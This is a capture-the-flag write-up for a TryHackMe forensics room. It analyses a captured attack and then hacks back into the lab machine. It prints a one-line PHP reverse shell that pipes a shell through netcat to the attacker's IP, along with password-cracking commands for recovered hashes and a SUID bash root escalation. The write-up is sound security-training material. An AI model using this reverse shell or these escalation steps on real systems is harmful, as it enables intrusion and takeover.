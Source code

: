 ```yaml
---
title: THM - Overpass 2 - Hacked
tags: [thm, forensic]
---
```


<div style="text-align:center;">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/96141387d9d4a22658f8db0ada67d62d.png" alt="Challenge logo" style="height:150px;">
</div>

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

## Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

We have to download the PCAP file from the machine tasks and open it in Wireshark. Right click on the first line and "Follow > TCP Stream".

On the second stream we can see a POST request to `/development/upload.php` in which is passed a file named  `payload.php`. We can see the file content

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

That's obiously a PHP reverse shell. Looking at the payload we can see which IP address was used by the attacker: `192.168.170.145`.

In the same stream, we can see a sequential GET request to `/development/uploads/`. We can assume that this request executed the payload and gave the attacker the access to the machine.

In the TCP stream number 3 we can see which commands the attacker typed. The attacker gained access as `www-data` user and stabilized his shell with python3. He then proceeded to read the content of `.overpass` file and escalated his privileges as `james` using `whenevernoteartinstant` as password.

After a little bit of thinkering, the attacker proceeded to clone this Github repo within james' home directory: `https://github.com/NinjaJc01/ssh-backdoor`. He then generated an RSA key pair and executed the backdoor. This gave the attacker persistence inside the comromised machine.

We can see that the attacker, before executing the backdoor, looked at the content of `/etc/passwd` file in which are stored all users hashed passwords. We can try to crack them with John The Ripper. Copy and paste the following lines inside a text file.

```
$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```

The machine's tasks tells us to use fasttrack wordlist to crack the the passwords.

```
$ john --wordlist=./fasttrack.txt hashes

1qaz2wsx         (?)     
abcd123          (?)     
secret12         (?)
secuirty3        (?)     
```

JTR was able to crack 4 hashes.

## Reseearch - Analyse the code

We have to do some simple code analysis on the backdoor. Let's clone the repo on our machine.

```
$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

Now we have to view the backdoor source code inside the `main.go` file. The backdoor default hash is declared at line 19

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

Scrolling through the code we can see this function declaration

```go
func verifyPass(hash, salt, password string) bool {
        resultHash := hashPassword(password, salt)
        return resultHash == hash
}
```

The `hash` is passed as an argument toghether with the `salt` to the `hashPassword` function. This function puts them togheter to create the final hash. At line 108 we can see which default `salt` is used.

```go
func passwordHandler(_ ssh.Context, password string) bool {
        return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

To see which hash did the attacker use, we have to return back on the PCAP file. At the end of the third stream, we can see it

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Inside the `main.go` file, we are able to see the usage of `SHA-512`. We can try to crack the hash with hashcat. Just search for the SHA-512 password + salt option (1710) and put the values toghether inside a text file

```
$ hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```

The cracked passwrd is `november16`.

## Attack - Get back in!

We have to hack back into the machine. Let's try to log in with `james` user since we found his password in the step before.

```
$ ssh -p 2222 james@10.10.68.50 -oHostKeyAlgorithms=+ssh-rsa
```

We are in. Let's navigate to james' home and get the first flag.

```
thm{d119b4fa8c497ddb0525f7ad[redacted]}
```

We need to elevate our privileges to become an administrator. I started the enumeration finding all SUIDs binary in the machine.

```
$ find / -perm -u=s 2>/dev/null

/home/james/.suid_bash
```

That one stands out. After a little bit of investigations I found that is an ELF which spawn a bash shell as `james`. Let's go to GTFObins and look if we can escalate our privileges with it.

I was able to find that we can simply type `./bash -p` and become root.

```
$ ./.suid_bash -p

.suid_bash-4.4# whoami
root
```

Let's get the flag

```
thm{d53b2684f169360bb9606c33[redacted]}
```